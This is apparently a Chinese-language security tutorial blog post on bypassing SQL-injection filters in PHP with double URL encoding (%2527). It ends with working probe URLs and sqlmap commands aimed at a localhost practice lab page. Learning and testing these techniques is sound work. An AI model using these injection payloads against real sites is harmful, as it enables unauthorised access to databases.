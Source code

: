 ```yaml
---
layout: post
title: 1.4.2-SQL注入防御绕过-二次编码注入
category: 
  - web安全
tags: 
  - sql注入
abbrlink: 41038608
date: 2018-07-06 00:00:00
---
```


## 01 二次编码注入原理

+，=，&，；  
原始数据不适合传输  

	index.php?id=1&name=admin&pwd=123

	name=admin=
	name=admin&

	admin=

	php urldecode('%3d') --> =

	// 如果这样的参数会引起歧义

php会自动解码  

二次编码注入：  
urldecode()与PHP本身处理编码时，两者配合失误，可构造数据消灭\  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/02.png)




## 02 二次编码注入方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/03.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/04.png)


	http://127.0.0.1/Less-1/double.php?id=1%2527 // 测试注入点
	http://127.0.0.1/Less-1/double.php?id=1%2527%20order%20by%203 //测试长度
	http://127.0.0.1/Less-1/double.php?id=1%27 order by 4--+
	http://127.0.0.1/


	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%25"

	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%2527" --current--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/05.png)

